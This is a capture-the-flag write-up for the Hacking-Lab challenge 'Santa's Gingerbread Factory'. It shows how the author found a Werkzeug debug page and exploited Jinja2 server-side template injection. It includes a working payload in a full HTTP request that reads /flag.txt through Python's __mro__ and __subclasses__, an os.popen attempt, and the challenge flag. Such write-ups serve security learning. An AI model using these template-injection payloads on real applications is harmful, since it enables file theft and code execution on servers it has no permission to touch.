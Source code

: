 # HV20.09 Santa's Gingerbread Factory

| <!-- --> | <!-- --> |
| --- | --- |
| **Author**     | inik |
| **Level**      | medium |
| **Categories** | `penetration testing`, `web security` |

## Description

### Introduction
Here you can customize your absolutely fat-free gingerbread man.

**Note**: Start your personal instance from the `RESOURCES` section on top.

### Goal / Mission
Besides the gingerbread men, there are other goodies there. Let's see if you can get the goodie, which is stored in `/flag.txt`.

## Approach

After some clueless attempts entering random characters, the input ``eyes=vader&name=bla<'///><`\\"+*ç%&/()=`` caused an exception in the application and returned an error page along with a [debugger, provided by the Werkzeug framework](https://werkzeug.palletsprojects.com/en/1.0.x/debug/).

Fiddling around with the debugger did not lead anywhere, as we didn't know the PIN to run a shell - exploits [like this one](https://github.com/its-arun/Werkzeug-Debug-RCE/blob/master/werkzeug.py) were not possible.

However, the error page also showed, that user input was concatenated with the Jinja2 template and rendered as a whole. That became the focus now.

Using Burpsuite's Repeater, I proceeded to abusing the template. It was a bit harder than initially thought, since you can't simply `import` anything you want. The following payload did not work:

```
eyes=*&name={%25+__import__('os').popen(\'whoami\').read()%3b+%25}
```

The error was: `TemplateSyntaxError: Encountered unknown tag '__import__'.`

Other (unsuccessful) approaches that I tried out are documented here:
- https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti
- https://jinja2docs.readthedocs.io/en/stable/templates.html?highlight=include#include

Some more web crawling was needed to finally stumble on the following link at Exploit-DB describing a Server-side Template Injection vulnerability: https://www.exploit-db.com/exploits/46386.

With that information, I crafted the request hereafter and was able to find the flag:
```
POST / HTTP/1.1
Host: 283b1812-7b4f-4721-9095-86dd0ebbac0d.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: https://283b1812-7b4f-4721-9095-86dd0ebbac0d.idocker.vuln.land
Connection: close
Referer: https://283b1812-7b4f-4721-9095-86dd0ebbac0d.idocker.vuln.land/
Upgrade-Insecure-Requests: 1

eyes=*&name={{ ''.__class__.__mro__[2].__subclasses__()[40]('/flag.txt').read() }}
```

The vulnerability exploits the property that each class in python keeps a reference to its superclasses through `__mro__` and to its subclasses through `__subclasses__`. This is how one is able to go up to `Object` from a `str` object and down again to a `file` class, which was then used to instantiate a new object and read out the file.

Note however, that this works for Python 2.7. The principle is still valid in Python 3, but indexes are different (and the `file` class seems not directly available anymore).

## Flag
`HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

## Tools
- Burpsuite
- Firefox
- DuckDuckGo
